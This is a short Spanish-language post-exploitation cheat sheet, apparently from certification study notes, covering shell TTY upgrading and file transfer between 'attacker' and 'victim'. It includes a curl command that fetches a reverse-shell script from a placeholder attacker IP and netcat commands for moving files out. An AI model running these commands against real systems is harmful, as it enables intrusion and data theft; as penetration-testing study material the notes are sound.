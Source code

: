 ## Post Explotación
 <a name="tratamientotty"></a>
 ### Tratamiento TTY
 Una vez obtenido acceso a la máquina, lo primero es conseguir una shell interactiva y completamente funcional, para ello:
 ```
 script /dev/null -c bash
 Ctrl+Z
 stty raw -echo; fg
export TERM=xterm
 export SHELL=bash
 
 ```
## Envío de ficheros entre Víctima y Atacante

Para enviar a la víctima a través de un servidor web  
Atacante
```
Creamos el fichero, por ejemplo revshell.sh
python3 -m http.server 80
```

Víctima  
```
curl <IP ATACANTE>/revshell.sh
```

Para enviar un fichero a través de netcat

El que recibe:  
```
nc -lvp [puerto] > nombre_archivo
```

El que envia:  
```
nc -w 3 [ip_destino] [puerto] < archivo de salida
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes">Menú Principal</a>
